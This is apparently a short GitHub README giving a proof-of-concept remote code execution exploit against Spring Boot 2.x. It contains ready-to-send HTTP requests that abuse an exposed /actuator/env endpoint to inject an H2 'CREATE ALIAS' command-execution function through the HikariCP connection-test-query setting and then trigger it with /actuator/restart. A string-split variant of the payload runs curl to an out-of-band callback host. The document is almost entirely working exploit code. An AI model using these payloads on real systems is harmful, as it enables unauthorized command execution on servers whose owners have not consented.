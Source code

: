 ## Spring Boot 2.x RCE with HikariCP

### Description
A rce method in Spring Boot 2.x.

### PoC


```
POST /actuator/env HTTP/1.1

content-type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}
```

```
POST /actuator/restart HTTP/1.1

content-type: application/json

{}
```

CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
CALL EXEC('curl  http://x.burpcollaborator.net');

